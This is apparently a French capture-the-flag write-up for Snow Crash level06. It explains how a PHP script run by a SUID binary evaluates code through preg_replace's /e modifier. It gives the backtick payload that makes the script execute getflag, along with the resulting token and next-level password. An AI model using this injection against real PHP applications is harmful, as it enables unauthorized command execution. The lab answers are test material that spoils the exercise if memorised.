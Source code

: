 # Snow Crash – Level06

## 🎯 Objectif
Exploiter une injection de code PHP via une faille dans `preg_replace` pour exécuter `getflag` avec les droits de `flag06`.

---

## 📂 Fichiers présents

```bash
level06
level06.php
```

- `level06` : binaire SUID appartenant à `flag06`.
- `level06.php` : script PHP exécuté par le binaire.

---

## 🧠 Fonctionnement

### Exécution classique :
```bash
./level06 /tmp/fichier
```

Le fichier est lu par `level06.php` et interprété.

### Contenu de `level06.php` (extrait clé) :
```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

🛑 Le modificateur `/e` est une **faille** : il évalue dynamiquement du code PHP.

---

## 💥 Faille et contournement

La fonction `y()` modifie certains caractères :
- `.` devient ` x `
- `@` devient ` y`

Mais les **backticks** (`` ` ``) ne sont pas modifiés → **exécution de commandes shell possible**.

---

## 🛠️ Exploitation

### 1. Créer un fichier contenant une commande `getflag`
```bash
echo '[x ${`getflag`} ]' > /tmp/getflag06
```

### 2. Exécuter le binaire :
```bash
./level06 /tmp/getflag06
```

### ✅ Résultat :
```txt
Check flag. Here is your token : wiok45aaoguiboiki2tuin6ub
```

---

## ✅ Résumé

- 🧠 Faille : `preg_replace(.../e)` → exécution dynamique PHP
- 🛠️ Payload : `[x ${\`getflag\`} ]`
- 🏆 Token : `wiok45aaoguiboiki2tuin6ub`
- 🔑 Mot de passe `level07` : `wiok45aaoguiboiki2tuin6ub`

